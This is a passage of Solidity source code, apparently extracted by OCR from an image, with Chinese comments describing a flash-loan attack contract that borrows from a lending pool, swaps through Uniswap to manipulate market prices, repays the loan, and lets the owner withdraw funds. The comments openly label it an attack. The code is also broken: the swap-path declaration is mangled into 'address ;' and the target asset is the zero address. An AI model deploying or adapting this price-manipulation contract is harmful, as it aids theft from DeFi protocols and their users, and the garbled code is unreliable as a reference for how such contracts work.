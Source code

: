 ```
    ILendingPool private lendingPool;  // 闪电贷池接口
    IUniswapV2Router02 private uniswapRouter;  // Uniswap 路由器接口

    // 闪电贷攻击合约构造函数，初始化借贷池和Uniswap路由器地址
    constructor(address _lendingPool, address _uniswapRouter) public {
        owner = msg.sender;  // 合约创建者为合约的拥有者
        lendingPool = ILendingPool(_lendingPool);  // 设置借贷池地址
        uniswapRouter = IUniswapV2Router02(_uniswapRouter);  // 设置Uniswap路由器地址
    }

    // 攻击触发函数，由合约拥有者调用发起闪电贷
    function attack(address asset, uint256 amount) external {
        require(msg.sender == owner, "Only owner can execute the attack");  // 只有合约拥有者才能执行攻击
        
        // 发起闪电贷，借入指定资产及数量
        lendingPool.flashLoan(address(this), asset, amount, "");
    }

    // 闪电贷执行回调函数，在借贷池放款后自动调用
    function executeFlashLoan(
        address asset,         // 借款资产地址
        uint256 amount,        // 借款数量
        uint256 fee,           // 闪电贷费用
        bytes calldata params  // 其他参数（此例为空）
    ) external {
        require(msg.sender == address(lendingPool), "Unauthorized");  // 确保调用者是借贷池

        // 执行市场价格操控，通过Uniswap交换资产
        address ; // 交换路径数组，包含两种资产（例如从借款资产到ETH）
        path[0] = asset;  // 输入资产（借来的资产）
        path[1] = address(0);  // 目标资产（例如ETH）

        // 使用Uniswap交换资产，操控市场价格
        uniswapRouter.swapExactTokensForTokens(amount, 1, path, address(this), block.timestamp);
        
        // 计算还款总额：借款金额 + 费用
        uint256 totalDebt = amount + fee;
        
        // 确保合约能够偿还闪电贷及其费用
        require(ERC20(asset).transfer(address(lendingPool), totalDebt), "Repayment failed");
    }

    // 提取合约中的资金（只有合约拥有者可以执行）
    function withdraw(address token, uint256 amount) external {
        require(msg.sender == owner, "Only owner can withdraw");  // 只有合约拥有者才能提取资金
        ERC20(token).transfer(owner, amount);  // 转账指定数量的资产到合约拥有者
    }
}

```
